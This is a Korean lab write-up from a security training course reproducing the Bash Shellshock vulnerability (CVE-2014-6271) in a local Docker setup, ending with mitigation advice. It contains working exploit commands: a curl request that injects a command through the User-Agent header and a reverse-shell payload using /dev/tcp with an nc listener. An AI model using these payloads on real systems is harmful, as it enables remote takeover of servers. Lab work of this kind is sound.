 # Bash Shellshock 원격 명령어 실행 취약점 (CVE-2014-6271)
>화이트햇 스쿨 3기 - 진형권 ([@Isidoro4-kor](https://github.com/Isidoro4-kor))

참고 - [vulhub](https://github.com/vulhub/vulhub/tree/master/bash/CVE-2014-6271)

## 요약
- Bash는 유닉스 및 리눅스에서 널리 사용되는 셸(shell)로, 사용자와 시스템이 상호작용할 수 있게 해주는 명령어 해석기입니다. 대부분의 리눅스 시스템에서 기본 셸로 사용되며, 스크립트를 실행하는 데에도 사용됩니다.
- 이 취약점은 Bash가 환경 변수에 정의된 함수를 처리할 때, 함수 정의 이후에 오는 임의의 명령어도 실행해버리는 문제입니다. 웹서버의 CGI 스크립트 환경에서 사용자가 조작한 HTTP 헤더가 환경 변수로 전달되면, 공격자가 헤더에 명령어를 삽입해 서버에서 임의 명령어를 실행시킬 수 있습니다.
- 원격 명령어 실행(RCE) - 서버에서 id, cat /etc/passwd 등 명령어를 실행, 시스템 권한 탈취 - root 권한 획득 후 시스템 제어 등이 가능합니다.

<br> 

## 환경설정
```bash
docker compose up -d
```
- ```http://localhost/victim.cgi``` -> 취약한 bash
- ```http://localhost/safe.cgi``` -> 패치된 bash
<br>

## Shellshock 공격 시도
취약한 bash
```bash
curl -H 'User-Agent: () { :; }; echo; echo; /usr/bin/id' http://localhost:8080/victim.cgi
```
![취약bash_공격시도](./1.png)


<br> <br> 

패치된 bash
```bash
curl -H 'User-Agent: () { :; }; echo; echo; /usr/bin/id' http://localhost:8080/safe.cgi

```
![패치bash_공격시도](./2.png)
<br>

## 리버스 쉘 연결 시도

새로운 터미널에서
```bash
nc -l 4444
```

기존 터미널에서 
```bash
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/<your-ip>/4444 0>&1' \http://localhost:8080/victim.cgi

```

결과
![쉘탈취](./3.png)

<br>

**ls**, **whoami**, **cat /etc/passwd** 등의 명령어 가능 &nbsp;-> &nbsp;쉘 탈취 성공

<br>

## 최종 정리
Shellshock은 Bash가 환경변수를 잘못 파싱해 명령어를 실행하는 치명적 버그로,
단순한 HTTP 요청만으로도 원격 코드 실행(RCE)이 가능한 극악한 취약점이다.

이 취약점에 대한 예방을 위해서는 다음과 같은 조치가 필요하다.

- Bash 최신 버전으로 업데이트: 취약한 버전(4.3 이하)을 최신 패치된 Bash로 교체
- 취약한 CGI 스크립트 제거 또는 다른 셸로 전환: Bash를 직접 사용하는 웹 인터페이스는 줄이는 것이 바람직
- 웹 서버 보안 설정 강화: Apache의 경우 mod_security와 같은 WAF(Web Application Firewall) 적용
- 불필요한 환경변수 전달 차단: 서버에서 외부 입력을 환경변수로 등록하지 않도록 필터링
- 정기적인 취약점 진단 및 시스템 점검 수행


